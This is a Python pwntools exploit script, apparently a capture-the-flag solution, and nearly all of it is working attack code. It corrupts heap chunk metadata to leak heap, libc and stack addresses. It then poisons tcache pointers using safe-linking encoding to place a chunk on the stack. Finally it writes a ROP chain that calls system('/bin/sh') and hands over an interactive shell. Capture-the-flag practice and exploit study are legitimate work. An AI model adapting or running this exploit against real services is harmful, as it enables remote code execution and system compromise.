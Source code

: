 ```python
modify(0, 0x20, p64(0)*3 + p64(0x141))

new(0x200, b'A'*0x200) # 1
modify(0, 0x20, b'A'*0x20)

cout(0)
p.recvuntil(b'A'*0x20)
heap = (u64(p.recv(5) + b'\0\0\0') << 12) - 0x1000

log.info('[HEAP] %#x'%heap)

new(0xca0, b'A'*0xca0) # 2
modify(2, 0xcb0, b'A'*0xca0 + p64(0) + p64(0x141))
new(0x200, b'A'*0x200) # 3

new(0xcc0, b'A'*0xcc0) # 4
modify(4, 0xcd0, b'A'*0xcc0 + p64(0) + p64(0x121))
new(0x200, b'A'*0x200) # 5

new(0xcc0, b'A'*0xcc0) # 6
modify(6, 0xcd0, b'A'*0xcc0 + p64(0) + p64(0x121))
new(0x200, b'A'*0x200) # 7

modify(7, 0x210, b'A'*0x200 + p64(0) + p64(0xdf1))

new(0x1000, b'A'*0x1000) # 8
modify(7, 0x210, b'A'*0x210)

cout(7)
p.recvuntil(b'A'*0x210)
libc = u64(p.recv(6) + b'\0\0') - 0x219ce0
environ = libc + 0x221200
system = libc + 0x50d60
binsh = libc + 0x1d8698
prdi = libc + 0x001718bb

log.info('[GLIBC] %#x'%libc)

modify(6, 0xcd8, b'A'*0xcc0 + p64(0) + p64(0x101) + p64(encode(environ - 0xf0, heap + 0x55000)))
new(0xf0, b'A'*0xf0) # 9
new(0xf0, b'A'*0xf0) # 10

cout(10)
p.recvuntil(b'A'*0xf0)
stack = u64(p.recv(6) + b'\0\0') - 0x120
log.info('[STACK] %#x'%stack)

modify(10, 0xf0, b'\0'*0xf0)

modify(2, 0xcb8, b'A'*0xca0 + p64(0) + p64(0x121) + p64(encode(stack - 8, heap + 0x11000)))

rop = b'A'*8
rop += p64(prdi+1) + p64(prdi) + p64(binsh) + p64(system)
rop = rop.ljust(0x110, b'\0')

new(0x110, b'B'*0x110) # 11
new(0x110, rop) # 12

p.interactive()
```
